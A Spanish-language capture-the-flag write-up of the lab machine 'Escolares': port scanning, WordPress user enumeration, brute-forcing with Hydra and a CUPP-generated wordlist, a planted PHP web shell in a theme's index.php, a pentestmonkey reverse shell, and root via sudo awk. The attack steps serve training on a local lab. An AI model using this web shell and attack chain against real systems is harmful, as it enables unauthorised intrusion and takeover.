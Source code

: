 ```yaml
---
description: '✍️ Autor: Luisillo_o🔍 Dificultad: Fácil  📅 Fecha de creación: 09/06/2024'
---
```


# Escolares

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (172).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (173).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo, el puerto **22** perteneciente al servicio **SSH** y el puerto **80** perteneciente al servicio **HTTP** están abiertos, por lo que se procederá a indagar más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 172.17.0.2
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (174).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora exploramos el servicio **HTTP**. Se ingresó la dirección IP en el navegador, lo que llevó a que la página web sobre una universidad de ciberseguridad.

<figure><img src="../../.gitbook/assets/image (175).png" alt=""><figcaption></figcaption></figure>

De primeras, no se nos muestra nada, por lo que revisamos el código fuente por si hay alguna información oculta relevante.

<figure><img src="../../.gitbook/assets/image (176).png" alt=""><figcaption></figcaption></figure>

Se nos muestra un comentario que parece ser relevante ya que la información del personal académico está en el directorio `/profesores.html` por lo que accedemos a él.

<figure><img src="../../.gitbook/assets/image (177).png" alt=""><figcaption></figcaption></figure>

Nos llama la atención de **Luis** ya que pone que es el **admin** de Wordpress.

Ahora, buscamos directorios con la herramienta **Gobuster** a través del comando:

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,htm,php,txt,xml -u http://172.17.0.2
```

<figure><img src="../../.gitbook/assets/image (178).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (179).png" alt=""><figcaption></figcaption></figure>

Hemos localizado la ruta que necesitábamos, ahora utilizaremos **WPscan** para identificar la versión específica de WordPress y enumerar los usuarios, con el fin de confirmar los hallazgos anteriores.

```bash
wpscan --url http://172.17.0.2/wordpress/ -e u
```

<figure><img src="../../.gitbook/assets/image (180).png" alt=""><figcaption></figcaption></figure>

Hemos confirmado la existencia del usuario **luisillo** en el WordPress. Ahora, procederemos a utilizar Hydra para realizar un ataque de fuerza bruta contra este usuario

### 🚀 **EXPLOTACIÓN**

Con la información obtenida anteriormente, realizamos el comando:

```bash
hydra -l luisillo -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 5
```

que utiliza la herramienta **Hydra** para realizar un ataque de fuerza bruta contra el servicio **SSH** de una máquina con la IP **172.17.0.2**. No tenemos suerte por lo que probaremos otra cosa.

Para obtener la contraseña del usuario, utilizaremos la herramienta **CUPP** (Common User Passwords Profiler), que no viene preinstalada en Kali Linux. CUPP está diseñada para generar listas de contraseñas personalizadas basadas en la información específica del usuario objetivo. Esto es útil porque muchos usuarios suelen crear contraseñas utilizando datos personales, como su nombre, fecha de nacimiento o el nombre de su mascota, en lugar de contraseñas genéricas.

Una vez que hemos instalado CUPP, ejecutamos el siguiente comando en la terminal para iniciarlo en modo interactivo:

```bash
cupp -i
```

<figure><img src="../../.gitbook/assets/image (181).png" alt=""><figcaption></figcaption></figure>

Con la lista de contraseñas generada, estamos preparados para llevar a cabo el ataque de fuerza bruta y tratar de obtener credenciales válidas.

<figure><img src="../../.gitbook/assets/image (182).png" alt=""><figcaption></figcaption></figure>

La contraseña del usuario **luisillo** es **Luis1981**. Probamos las credenciales en el formulario del Wordpress.

> Nota: si nos da error [http://172.17.0.2/wordpress/wp-login.php](http://172.17.0.2/wordpress/wp-login.php) se debe añadir el dominio a /etc/hosts es decir, añadir 172.17.0.2 escolares.dl y reiniciar la página.

<figure><img src="../../.gitbook/assets/image (164).png" alt=""><figcaption></figcaption></figure>

Nos deja entrar cuando quitamos el bloqueo de las cookies.

<figure><img src="../../.gitbook/assets/image (165).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (166).png" alt=""><figcaption></figcaption></figure>

Accede al archivo `index.php` en la ruta `wp-content/themes/twentytwentytwo/` de tu instalación de WordPress y modifica el archivo con el siguiente código PHP:

```markdown
<?php echo "<pre>". shell_exec($_REQUEST['cmd']). "</pre>" ?>
```

Luego, abre tu navegador y accede a la siguiente URL para ejecutar comandos:

```ruby
http://172.17.0.2/wordpress/wp-content/themes/twentytwentytwo/index.php?cmd=whoami
```

Al ejecutar el comando `whoami`, deberías ver el resultado en la página, que indicará el usuario bajo el cual se está ejecutando el servidor web que es `www-data`. Sabiendo que podemos ejecutar cualquier comando, vamos a realizar una reverse **shell** utilizando la página web por lo que subimos este archivo PHP [https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

<figure><img src="../../.gitbook/assets/image (167).png" alt=""><figcaption></figcaption></figure>

```
http://172.17.0.2/wordpress/wp-content/themes/twentytwentytwo/reverse.php
```

Después de ejecutar el comando codificado en la URL, la página puede quedarse cargando indefinidamente. Esto indica que la solicitud está en proceso, pero no necesariamente significa que ha fallado.

Nos ponemos en escucha por el puerto 443:

<figure><img src="../../.gitbook/assets/image (168).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root** ya que somos www-data como se mostraba anteriormente.

Para facilitar la interacción con la **shell**, migraremos a una sesión de **bash** más funcional. Esto es necesario porque en la **shell** actual no podemos utilizar las teclas de flecha ni acceder al historial de comandos. Ejecutando el siguiente comando, iniciamos una nueva sesión de bash sin registrar la actividad en ningún archivo:

```bash
script /dev/null -c bash
```

Estamos ejecutando comandos como el usuario `www-data`, lo que significa que nuestros permisos son limitados. Sin embargo, podemos intentar explorar el directorio `/home` para ver si encontramos algo interesante. Al revisar el contenido de `/home`, además de los directorios de usuarios, encontramos un archivo llamado `secret.txt`. Este archivo contiene la contraseña de un usuario llamado **Luisillo**, lo que podría ser útil para obtener acceso adicional.&#x20;

<figure><img src="../../.gitbook/assets/image (169).png" alt=""><figcaption></figcaption></figure>

Nos conectamos al sistema como el usuario **Luisillo**. Ahora que tenemos acceso como un usuario normal, navegamos a su carpeta personal y listamos el contenido, pero no encontramos nada relevante. Sin embargo, al ejecutar `sudo -l`, descubrimos que podemos elevar privilegios utilizando el binario `awk`.

<figure><img src="../../.gitbook/assets/image (170).png" alt=""><figcaption></figcaption></figure>

Visitamos la página de **GFTOBins** para buscar una forma de escalar privilegios usando el binario `awk`. En la sección correspondiente a `awk` bajo el contexto de `sudo`, encontramos el comando que nos permitirá abusar de este binario para obtener privilegios de **root**. Puedes revisar los detalles en el siguiente enlace:

[GFTOBins - awk (sudo)](https://gtfobins.github.io/gtfobins/awk/#sudo)

Tras eso, ponemos:

```bash
whoami
```

y ya somos **root**.

<figure><img src="../../.gitbook/assets/image (28) (1).png" alt=""><figcaption></figcaption></figure>

